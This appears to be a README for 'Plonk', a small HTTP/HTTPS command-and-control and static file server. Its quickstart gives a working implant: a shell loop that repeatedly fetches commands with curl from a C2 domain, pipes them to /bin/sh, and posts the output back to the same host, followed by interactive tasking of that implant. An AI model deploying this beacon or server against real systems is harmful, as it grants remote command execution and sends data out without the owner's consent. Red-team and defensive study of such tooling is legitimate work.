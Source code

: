 Plonk HTTP C2 and Static File Server
====================================
Plonk is a little HTTP(s) server program you can just plonk down and use for
quick'n'dirty C2ish infrastructure.  It serves static file and can serve
rudimentary tasking and take output.

Quickstart
----------
1. Start the C2 server
```bash
go install github.com/magisterquis/plonk@latest
plonk -h
plonk -letsencrypt c2domain.example.com
```
2. Get an implant going on target
```bash
while :; do
        curl -s https://c2domain.example.com/t/kittens | \
        /bin/sh | \
        curl --data-binary @- -s https://c2domain.example.com/t/kittens
        
        sleep 15
done
```
3. Tasking and output
```bash
plonk -interact kittens
ps awwwfux
```


Features
--------
- HTTP
- HTTPS with
  - Self-signed certificate generation
  - Automatic certificate provisioning with Let's Encrypt
  - Easy usage of custom certificates
- Static file server
- Tasking over HTTP
- Task output logging
- Simple interactive interface

Installation
------------

Usage
-----
